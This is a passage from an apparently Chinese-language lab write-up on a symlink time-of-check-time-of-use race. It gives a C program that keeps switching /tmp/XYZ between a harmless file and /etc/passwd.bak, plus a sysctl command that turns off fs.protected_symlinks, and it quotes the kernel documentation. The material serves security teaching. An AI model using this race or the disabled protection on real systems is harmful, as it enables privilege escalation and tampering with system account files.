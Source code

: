 小白兔已就绪。

<br>

#### 攻击程序

攻击程序：改变XYZ文件，使其成为软连接文件，指向/etc/passwd.bak

```c
/**
 * 不断删除和创建指向passwd文件的软连接文件,attack.c
 * cd /tmp; touch tmp.txt
 * cd /etc; cp -a passwwd passwd.bak
 * gcc -o attack attack.c
*/

#include <stdio.h>
#include <unistd.h>

int main(void){
    int sleep_time = 1000;

    while (1){
        unlink("/tmp/XYZ");
        symlink("/tmp/tmp.txt","/tmp/XYZ");/*指向一个“普通”文件，跳过access*/
        usleep(sleep_time); 

        unlink("/tmp/XYZ");
        symlink("/etc/passwd.bak","/tmp/XYZ");/*指向passwd*/
        usleep(sleep_time); 
    }
    
    return 0;
}
```

大灰狼已就绪。

<br>

#### 关闭防护

```shell
# fs.protected_symlinks介绍见附录
sudo sysctl -w fs.protected_symlinks=0
```

参考文章：[sysctl命令](https://man.linuxde.net/sysctl)  + [protected_symlinks参数](https://www.kernel.org/doc/html/latest/admin-guide/sysctl/fs.html?highlight=protected_symlinks) + [内核参数说明](https://www.cnblogs.com/tolimit/p/5065761.html)

> 原文：
>
> ### protected_symlinks
>
> A long-standing class of security issues is the symlink-based time-of-check-time-of-use race, most commonly seen in world-writable directories like /tmp. The common method of exploitation of this flaw is to cross privilege boundaries when following a given symlink (i.e. a root process follows a symlink belonging to another user). For a likely incomplete list of hundreds of examples across the years, please see: http://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=/tmp
>
> When set to “0”, symlink following behavior is unrestricted.
>
> When set to “1” symlinks are permitted to be followed only when outside a sticky world-writable directory, or when the uid of the symlink and follower match, or when the directory owner matches the symlink’s owner.
>
> This protection is based on the restrictions in Openwall and grsecurity.